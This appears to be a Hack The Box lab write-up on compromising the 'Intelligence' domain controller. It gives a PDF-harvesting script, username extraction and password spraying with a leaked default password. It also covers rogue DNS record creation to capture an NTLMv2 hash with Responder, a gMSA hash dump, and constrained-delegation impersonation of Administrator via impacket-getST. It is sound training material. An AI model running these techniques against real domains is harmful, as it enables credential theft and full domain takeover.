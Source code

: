 ```yaml
---
layout: post
title:  "Hack the Box - Intelligence"
categories: "Writeups"
---
```


## Enumeration
# NMAP

- I won't be providing the output due to it being so large for the page but running a basic scan shows us we are dealing with a Domain Controller along with a web page (interesting...)

# Web Page
- We can see two pdfs available but maybe there are more available but on the web page?
- Python script to download within the year 2020
- Note: I believe when I went through this, I referenced 0xdf's blog and got input from his script

```python3
#!/usr/bin/env python3

import requests
import argparse
import datetime

def main():
    parser = argparse.ArgumentParser(description="Script to download PDFs from website/Intelligence on HTB")
    parser.add_argument('-url', required=True, help='URL for webpage')
    options = parser.parse_args()


    # Testing how to download a file :D
    # url = 'http://intelligence.htb/documents/2020-01-01-upload.pdf'
    # r = requests.get(url)
    # with open("2020-01-01-upload.pdf", 'wb') as f:
    #     f.write(r.content)
    
    # Adding zeros in front of int, for 01, 02, 03 ... 09
    # This matches the PDF format
    # num = "1"
    # print(num.zfill(2))
    downloadFiles(options.url)


def downloadFiles(url):
    start_date = datetime.datetime(2020, 1, 1)
    end_date = datetime.datetime(2020, 12, 31)

    while True:
        u = start_date.strftime(url + "/documents/%Y-%m-%d-upload.pdf")
        r = requests.get(u)
        if r.status_code == 200:
            print(f"[*] URL: {u}")
            with open(u.replace("http://intelligence.htb/documents/", ""), "wb") as f:
                print(f"[*] Getting pdf: {u}...")
                f.write(r.content)

        start_date = start_date + datetime.timedelta(days=1)
        if start_date >= end_date:
            break



main()
```

## Observing PDFs
- We can get usernames from them based on the creator section from exiftool

```bash
exiftool * | grep "Creator" | awk '{print $3}' | sort -u > ../users.lst
```

```text
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```
- Lets check the contents of the pdfs and maybe there is something

- We can use "pdfgrep" to search through for keywords, like password
```bash
pdfgrep "password" *
```
- Shows us "2020-06-04" contains the word we are searching for!
- Default password of "NewIntelligenceCorpUser9876" we can use to password spray
- We get a hit with Tiffany Molina!
- ![[TMolinda-PassSpray.png]](/images/HTB/Intelligence/TMolinda-PassSpray.png)

## Tiffany Molina
# SMB Enum
- We can read IPC$, IT, NETLOGON, SYSVOL, Users
- IT would be most interesting

# IT Share
- PowerShell Script

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
- What this script is doing is finding any domain that starts with "web" within the intelligence domain then using the credentials of Ted Graves, it sends out an email
- But what if it connects to a domain we create and sends the creds of Ted?

- [Check out this tool for creating a dns record](https://github.com/dirkjanm/krbrelayx)


```bash
sudo python3 /home/turco/hacking-tools/krbrelayx/dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webturco.intelligence.htb -a add -t A -d 10.10.14.5 10.10.10.248
```
- Confirm with nslookup:

![[webturco-confirm.png]](/images/HTB/Intelligence/webturco-confirm.png)
- The domain "webturco.intelligence.htb" points back to my tun0 address
- Start up responder and wait for a connection from Ted Graves (script runs every 5 min)


# Cracking hash

- We get Ted's hash and its an NTLMv2 so we need to crack with hashcat/john
- Responder: (edit /etc/responder/Responder.conf and turn on HTTP server)
- ![[teddy-responder.png]](/images/HTB/Intelligence/teddy-responder.png)
- Hashcat NTLMv2 value = 5600 

```
Ted.Graves : Mr.Teddy
```

## Ted Graves Enumeration
# Bloodhound
- Analyzing Ted.Graves in bloodhound shows he is part of the ITSuport group which can "ReadGMSAPassword" on svc_int under "Group Delegated Object Control"
- [Tool I used](https://github.com/micahvandeusen/gMSADumper)
- ![[ted-readgmsa-BH.png]](/images/HTB/Intelligence/ted-readgmsa-BH.png)
- ![[readgmsaDumper.png]](/images/HTB/Intelligence/readgmsaDumper.png)

```
svc_int$ : 6bf735e60852b92212d512a4deadcfea
```

- But analyzing more from svc_int, we see its allowed to delegate to the DC
- ![[AllowedToDelegateBH.png]](/images/HTB/Intelligence/AllowedToDelegateBH.png)
- AllowedToDelegate: WWW/dc.intelligence.htb (SPN)

# Abusing AllowedToDelegate
- We can impersonate the Administrator by generating a service ticket using that SPN
```bash
impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes <NTLM>
```


- Generating this service ticket will allow us to impersonate the Administrator on DC
- [Artcile about unconstrained delegation](https://stealthbits.com/blog/constrained-delegation-abuse-abusing-constrained-delegation-to-achieve-elevated-access/)
- Proof of admin:
![[whoami-Admin.png]](/images/HTB/Intelligence/whoami-Admin.png)